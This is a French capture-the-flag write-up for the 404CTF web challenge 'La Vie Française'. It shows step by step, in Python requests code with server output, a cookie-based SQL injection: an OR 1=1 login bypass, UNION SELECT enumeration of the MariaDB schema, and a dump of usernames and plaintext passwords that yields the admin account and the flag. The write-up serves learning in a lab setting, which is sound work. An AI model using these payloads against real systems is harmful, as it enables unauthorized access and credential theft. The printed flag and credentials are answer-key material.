




> **title:** La Vie Française
>
> **category:** Web
>
> **difficulty:** Facile
>
> **point:** 959
>
> **author:** Artamis#7513 et V0odOo#3248
>
> **description:**
> Assise dans un coin du café, Madelaine Forestier observe, seule, les clients s'agiter. Depuis votre place, vous l'apercevez. C'est une femme digne, intelligente et ambitieuse, cela se lit dans son attitude. Mme. Forestier est veuve, c'est une de vos rencontres précédentes au comptoir qui vous l'a dit. Charles Forestier, journaliste du célèbre *La Vie Française* est décédé il y a peu. Problèmes de santé, semblait-il.
> 
> Vous voyez un homme s'approcher de Mme. Forestier. 
> 
> « C'est Georges Duroy, vous souffle-t-on à l'oreille, un ami de Forestier qui n'a pas perdu le Nord ! Depuis la mort de ce pauvre Charles, Duroy cherche à séduire Madelaine pour récupérer ses parts dans le journal. »
> 
> Vous n'écoutez pas plus longtemps. Alors que Mme. Forestier semble refuser avec lassitude la demande que vient de faire ce M. Duroy, vous avez remarqué que ce dernier regardait avec attention le journal qu'elle venait de finir de lire. Duroy part en hâte ; il abandonne bien trop vite pour que cela soit normal...
> 
> ***
> 
> Vous récupérez le journal de Mme. Forestier. Analysez-le : si Georges Duroy est parti aussi vite, c'est qu'il a trouvé un moyen d'accéder aux parts qu'il convoite tant.
> 
> ***
> 
> Rappel : L'utilisation de tout outil de bruteforce, dont `sqlmap`, est interdite.
> 
> ```
> https://la-vie-francaise.challenges.404ctf.fr/
> ```

## Solution

Ici on doit réaliser une **Injection SQL** dans le cookie.

Une fois connecté au site, on reçoit un **uuid** dans nos cookies qui sert d'authentification.



<br>

### Test de l'injection

On peut commencer par tester l'injection en **python** :

```python
from requests import Session

URL = "https://la-vie-francaise.challenges.404ctf.fr"
client = Session()

client.cookies.set('uuid', "' OR 1 = 1 #")

print(client.get(f"{URL}/account", allow_redirects=False).text)
```

Réponse :
```html
<h3>Bienvenue  jacquesrival  !</h3>
```

On est bien connecté en tant que **`jacquesrival`** !

<br>

### Déterminer le nombre de colonne pour l'union select

En testant d'abord avec 1 colonne NULL, puis 2, puis 3, on détermine le nombre de colonne utilisée dans la requête : 

```python
from requests import Session

URL = "https://la-vie-francaise.challenges.404ctf.fr"
client = Session()

client.cookies.set('uuid', "' OR 1 = 1 UNION SELECT NULL, NULL, NULL #")

print(client.get(f"{URL}/account", allow_redirects=False).text)
```

Réponse :
```html
<h3>Bienvenue  jacquesrival  !</h3>
```

<br>

### Déterminer les colonnes visibles

Maintenant on va essayer de récupérer un output de l'injection pour simplifier la tâche. Pour ça on va laisser une colonne à NULL et trier dessus par order ascendant afin que notre union select soit le premier résultat. On limit alors à 1 la sortie (même si ici le serveur à l'air de déjà prendre tout seul le premier résultat).

En faisant plusieurs essais on voit que la colonne 1 et 2 nous sont renvoyées mais pas la 3. On va alors trier sur la 3 et se servir des deux premières comme output.

```python
from requests import Session

URL = "https://la-vie-francaise.challenges.404ctf.fr"
client = Session()

client.cookies.set('uuid', "' OR 1 = 1 UNION SELECT 'field1', 'field2', NULL ORDER BY 3 ASC LIMIT 1 #")

print(client.get(f"{URL}/account", allow_redirects=False).text)
```

Réponse :
```html
<h3>Bienvenue  field1  !</h3>
<p> field2 </p>
```

<br>

### Déterminer la version et le nom de la base de données

On sait avec le **`#`** de l'injection qu'il s'agit d'une base MySQL (sinon on aurait juste essayer les autres pour le savoir). Continuons l'investigation et prenons un peu de contexte avec la version de la database et le nom de celle que le serveur utilise pour le site :

```python
from requests import Session

URL = "https://la-vie-francaise.challenges.404ctf.fr"
client = Session()

client.cookies.set('uuid', "' OR 1 = 1 UNION SELECT database(), @@version, NULL ORDER BY 3 ASC LIMIT 1 #")

print(client.get(f"{URL}/account", allow_redirects=False).text)
```

Réponse :
```html
<h3>Bienvenue  usersdb  !</h3>
<p> 10.11.3-MariaDB-1:10.11.3+maria~ubu2204 </p>
```

Notre database : **`usersdb`** !

<br>

### Déterminer les tables

Maintenant regardons les tables qui existent dans cette base de données :

```python
from requests import Session

URL = "https://la-vie-francaise.challenges.404ctf.fr"
client = Session()

client.cookies.set('uuid', "' OR 1 = 1 UNION SELECT NULL, GROUP_CONCAT(table_name), NULL FROM information_schema.tables WHERE table_schema=database() ORDER BY 3 ASC LIMIT 1 #")

print(client.get(f"{URL}/account", allow_redirects=False).text)
```

Réponse :
```html
<p> users </p>
```

Il n'y a que **`users`** !

<br>

### Déterminer les colonnes de la table 'users'

Bien, maintenant quelles sont les colonnes de cette table ?

```python
from requests import Session

URL = "https://la-vie-francaise.challenges.404ctf.fr"
client = Session()

client.cookies.set('uuid', "' OR 1 = 1 UNION SELECT NULL, GROUP_CONCAT(column_name), NULL FROM information_schema.columns WHERE table_name = 'users' ORDER BY 3 ASC LIMIT 1 #")

print(client.get(f"{URL}/account", allow_redirects=False).text)
```

Réponse :
```html
<p> id,username,password,uuid,description,status,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS </p>
```

Ce qui nous intéresse ici est le **`status`** du compte pour en voler un spécial.

Ensuite, soit le combo **`username`** / **`password`**, soit le **`uuid`** pour se connecter directement en définissant notre cookie.

<br>

### Récupérer les utilisateurs et leur mot de passe

Là on va dumper toutes les informations intéressantes de la table d'un coup en les groupants au format **`username:password:status`**.

```python
from requests import Session

URL = "https://la-vie-francaise.challenges.404ctf.fr"
client = Session()

client.cookies.set('uuid', "' OR 1 = 1 UNION SELECT NULL, GROUP_CONCAT(CONCAT(username, ':', password, ':', status)), NULL FROM users ORDER BY 3 ASC LIMIT 1 #")

print(client.get(f"{URL}/account", allow_redirects=False).text)
```

Réponse :
```html
<p> jacquesrival:jQwmE96dZMEwmL:invite,louislangremont:Am2GzqU4xWA3At:invite,saintpotin:rH2jWTo9mnWJpd:invite,norbertdevarenne:2P4vLpv7SV5dRK:invite,larochemathieu:4EJ36bMx2NgAuh:invite,madeleineforestier:fo2DVkgShz2pPJ:admin </p>
```

Le compte qui nous intéresse est évidemment l'**`admin`**. Il s'agit du compte de **`madeleineforestier`**.

<br>

### Connexion et récupération du flag

Maintenant que nous avons les credentials du compte, nous pouvons nous connecter :



On voit qu'un panneau admin est disponible, en s'y rendant on trouve le flag :



<br>

<span class="flag">FLAG : 404CTF{B3w4Re_th3_d3STruct1v3s_Qu0tes}</span>

